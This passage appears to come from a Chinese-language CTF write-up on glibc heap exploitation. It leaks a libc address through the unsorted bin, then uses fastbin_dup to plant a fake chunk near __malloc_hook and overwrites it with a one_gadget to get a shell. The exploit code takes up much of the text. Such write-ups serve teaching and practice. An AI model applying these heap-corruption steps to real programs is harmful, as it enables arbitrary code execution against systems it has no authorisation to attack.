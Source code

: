执行这一段脚本

![](https://static.hack1s.fun/images/2021/04/29/image-20210429193311942.png)

可以看到 unsotredbin 中的 fd 和 bk 都指向了 main_arena

那么我们就成功拿到了一个泄漏的 libc 地址

由于一般`__malloc_hook`与`main_arena`只差 0x10 的距离，我们直接相减就可以得到`__malloc_hook`的地址

![](https://static.hack1s.fun/images/2021/05/06/image-20210506143028227.png)

接下来就尝试覆盖`__malloc_hook`改为 system 函数或者是 one_gadget

再一次利用 fastbin_dup，这一次修改其中的 fd 指向`__malloc_hook`附近的 fake chunk

![](https://static.hack1s.fun/images/2021/05/20/image-20210520113028864.png)

这里`0xaed`有一个可以用于伪造的地方

那么

```
# get shell
chunk_E = malloc(0x68)
chunk_eF = malloc(0x38)
chunk_F = malloc(0x68)
free(chunk_E)
free(chunk_F)

payload = b'\x00'*0x38 + p64(0x71) + p64(malloc_hook-0x23)
# find_fake_fast
fill(chunk_eF,len(payload),payload)

```

这样之后再申请两次大小为 0x68 的 chunk 就可以获得一个在 malloc_hook 附近的 chunk 了

```
malloc(0x68)
chunk = malloc(0x68)
fill(chunk,0x1b,b'\x00'*0x13 + p64(one))

```

在其中填上 gap 和 one_gadget 的地址，结束；

```
chunk_A = malloc(0x28)

chunk_eB = malloc(0x28)
chunk_B = malloc(0x28)

chunk_eC = malloc(0x28)
chunk_C = malloc(0x88)

chunk_D = malloc(0x28)

free(chunk_A)
free(chunk_B)

fill(chunk_eB,49,p64(0)*5+p64(0x31)+p8(0xc0))
fill(chunk_eC,48,p64(0)*5+p64(0x31))

malloc(0x28)
dup = malloc(0x28)

fill(chunk_eC,48,p64(0)*5+p64(0x91))
free(chunk_C)
```